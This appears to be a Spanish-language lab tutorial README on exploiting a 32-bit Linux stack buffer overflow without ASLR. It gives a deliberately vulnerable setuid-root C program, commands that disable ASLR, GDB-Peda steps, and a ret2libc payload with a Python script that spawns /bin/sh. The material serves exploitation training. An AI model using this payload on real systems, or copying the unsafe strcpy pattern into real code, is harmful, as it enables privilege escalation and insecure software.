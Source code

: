 **EXPLICACÍON DETALLADA EN** [Buffer Overflow 32 Bits Linux (sin ASLR)](https://hacknotes.github.io/buffer%20overflow/buff32linuxSinAslr/)

## Script
```bash
#include <stdio.h>
#include <string.h>

int vuln(char *str)
{
    char buf[64];
    strcpy(buf,str);
    printf("Cadena: %s\n",buf);
    return 0;
}
int main(int argc, char* argv[])
{
    vuln(argv[1]);
}
```

## Compilación

 ```bash
gcc -fno-stack-protector -m32 buff.c -o buff
```

## Permisos
 
```bash
 chown root:root buff
 chmod +s buff
```
## Desactivar el ASLR
```python
echo 0 > /proc/sys/kernel/randomize_va_space
```
 
 ## GDB-Peda

Vemos los registros de la memoria

**Comando:** 
 ```bash
 i r
 ```
 
Crea cadenas aleatorias

**Comando:**
 ```bash
 pattern arg 100
 ```
 
 Ejecuta el binario

**Comando:**
 ```bash
 r
 ```
 
Encuentra el tamaño del offset.

**Comando:**
 ```bash
 pattern search
 ```
 
 Muestra la dirección de system.

**Comando:**
 ```bash
 p system
 ```
 Muestra la dirección de exit.

**Comando:**
 ```bash
 p exit
 ```
 Muestra la dirección de /bin/sh.

**Comando:**
 ```bash
 find "/bin/sh" all
 ```
 
 ## Payload final
 ```bash
 payload = offset + system + exit + /bin/sh
 
 $(python -c 'print "A"*76 + "\x10\x33\xe5\xb7" + "\x60\x62\xe4\xb7" + "\x4c\x5d\xf7\xb7"')
```

## Script en python
```python
#/usr/bin/python2
#Johnny Chafla | @jch | @hacknotes
#site https://hacknotes.github.io/

from struct import pack

offset = 76

systemAdd = pack("<I", 0xb7e53310)
exitAdd = pack("<I", 0xb7e46260)
binshAdd = pack("<I", 0xb7f75d4c)

junk = "A"*76

payload = junk + systemAdd + exitAdd + binshAdd

print payload
```

**EXPLICACÍON DETALLADA EN** [Buffer Overflow 32 Bits Linux (sin ASLR)](https://hacknotes.github.io/buffer%20overflow/buff32linuxSinAslr/)
